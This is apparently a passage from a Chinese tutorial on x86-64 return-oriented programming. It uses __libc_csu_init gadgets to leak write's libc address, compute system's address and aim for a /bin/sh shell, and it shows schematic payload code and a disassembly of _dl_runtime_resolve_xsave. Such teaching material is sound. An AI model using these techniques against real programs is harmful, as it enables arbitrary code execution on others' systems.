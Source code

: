 可以看到从`0x4005ea`开始，就依次将栈上的数据弹入到`rbx`, `rbp`, `r12`, `r13`, `r14`, `r15`中，在`0x4005d0`，又将`r15`传递给`rdx`(函数的第三个参数)，`r14`传递给`rsi`(函数的第二个参数)，`r13`传递给`edi`(函数的第1个参数)，随后通过`call   QWORD PTR [r12+rbx*8]`来调用函数，`r12`和`rbx`我们也是可以控制。后续会判断rbp，rbx是否相等，如果相等就会继续执行下面的`pop`并且`ret`就可以执行另外一个函数。 这样`libc.so`提供的`ROP`完全满足我们的需求，只是构造会比较麻烦一点。该库是在所有的`elf64`的程序里面都会加载的.

通过上面的信息作为基础，我们先构造`payload1`功能主要是调用`write`函数，并将`1(STDOUT_FILENO)`,`write@got`,`8(len)`3个参数进行传递获取到内存中write函数的地址

<pre>payload1 = "\x90"*payload_len + (return_addr=__libc_csu_init+5a=0x4005ea) + (rbx=0) + (rbp=1)
payload1 += (r12=write_got) + (r13=1) + (r14=write_got) + (r15=8) + (0x4005d0)	# write函数的调用
payload1 += "b"*56 + (return_addr=main) # 当write函数调用结束后，会继续`pop6`次，所以返回地址设置到程序的主函数进行`payload2发送`</pre>

获取到`write_addr`的内存地址后，通过偏移开始计算`system`的偏移地址，由于通过`__libc_csu_init`的ROP我们控制的第一个参数只能保存在`edi`，`32`位的空间所以无法直接使用`libc.so`中的`/bin/sh`的内存地址因为它是64位的,所以这里还要再加一层`payload`，通过`read`函数将`/bin/sh`写入到`.bss`段中(因为地址位数比较小，所以可以通过edi来传递)。

<pre>write_addr = u64(p.recv(8))
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
</pre>

在获取到`system`地址后，我们需要通过`read`函数将`/bin/sh`写入到程序的`.bss`段中，这样方便我们将该地址传入到`edi`，调用`system`函数拿到`shell`.这个具体的构造可以参照[蒸米的这篇文章](http://cb.drops.wiki/drops/papers-7551.html)来进行操作

<strong>第二种`_dl_runtime_resolve_xsave`:</strong>

<pre>   0x00007ffff7ded240 <+0>:	push   rbx
   0x00007ffff7ded241 <+1>:	mov    rbx,rsp
   0x00007ffff7ded244 <+4>:	and    rsp,0xffffffffffffffc0
   0x00007ffff7ded248 <+8>:	sub    rsp,QWORD PTR [rip+0x20f5b9]        # 0x7ffff7ffc808 <_rtld_global_ro+168>
   0x00007ffff7ded24f <+15>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ded253 <+19>:	mov    QWORD PTR [rsp+0x8],rcx
   0x00007ffff7ded258 <+24>:	mov    QWORD PTR [rsp+0x10],rdx
   0x00007ffff7ded25d <+29>:	mov    QWORD PTR [rsp+0x18],rsi
   0x00007ffff7ded262 <+34>:	mov    QWORD PTR [rsp+0x20],rdi
   0x00007ffff7ded267 <+39>:	mov    QWORD PTR [rsp+0x28],r8
   0x00007ffff7ded26c <+44>:	mov    QWORD PTR [rsp+0x30],r9
   0x00007ffff7ded271 <+49>:	mov    eax,0xee
   0x00007ffff7ded276 <+54>:	xor    edx,edx
   0x00007ffff7ded278 <+56>:	mov    QWORD PTR [rsp+0x240],rdx
   0x00007ffff7ded280 <+64>:	mov    QWORD PTR [rsp+0x248],rdx
   0x00007ffff7ded288 <+72>:	mov    QWORD PTR [rsp+0x250],rdx
   0x00007ffff7ded290 <+80>:	mov    QWORD PTR [rsp+0x258],rdx
   0x00007ffff7ded298 <+88>:	mov    QWORD PTR [rsp+0x260],rdx
   0x00007ffff7ded2a0 <+96>:	mov    QWORD PTR [rsp+0x268],rdx
   0x00007ffff7ded2a8 <+104>:	mov    QWORD PTR [rsp+0x270],rdx
   0x00007ffff7ded2b0 <+112>:	mov    QWORD PTR [rsp+0x278],rdx
   0x00007ffff7ded2b8 <+120>:	xsave  [rsp+0x40]
   0x00007ffff7ded2bd <+125>:	mov    rsi,QWORD PTR [rbx+0x10]
   0x00007ffff7ded2c1 <+129>:	mov    rdi,QWORD PTR [rbx+0x8]
   0x00007ffff7ded2c5 <+133>:	call   0x7ffff7de6630 <_dl_fixup>
   0x00007ffff7ded2ca <+138>:	mov    r11,rax
   0x00007ffff7ded2cd <+141>:	mov    eax,0xee
   0x00007ffff7ded2d2 <+146>:	xor    edx,edx
   0x00007ffff7ded2d4 <+148>:	xrstor [rsp+0x40]		# dl_runtime_resolve 是没有这条指令
   0x00007ffff7ded2d9 <+153>:	mov    r9,QWORD PTR [rsp+0x30]
   0x00007ffff7ded2de <+158>:	mov    r8,QWORD PTR [rsp+0x28]
   0x00007ffff7ded2e3 <+163>:	mov    rdi,QWORD PTR [rsp+0x20]
   0x00007ffff7ded2e8 <+168>:	mov    rsi,QWORD PTR [rsp+0x18]
   0x00007ffff7ded2ed <+173>:	mov    rdx,QWORD PTR [rsp+0x10]
   0x00007ffff7ded2f2 <+178>:	mov    rcx,QWORD PTR [rsp+0x8]
   0x00007ffff7ded2f7 <+183>:	mov    rax,QWORD PTR [rsp]
   0x00007ffff7ded2fb <+187>:	mov    rsp,rbx
   0x00007ffff7ded2fe <+190>:	mov    rbx,QWORD PTR [rsp]
   0x00007ffff7ded302 <+194>:	add    rsp,0x18
=> 0x00007ffff7ded306 <+198>:	bnd jmp r11</pre>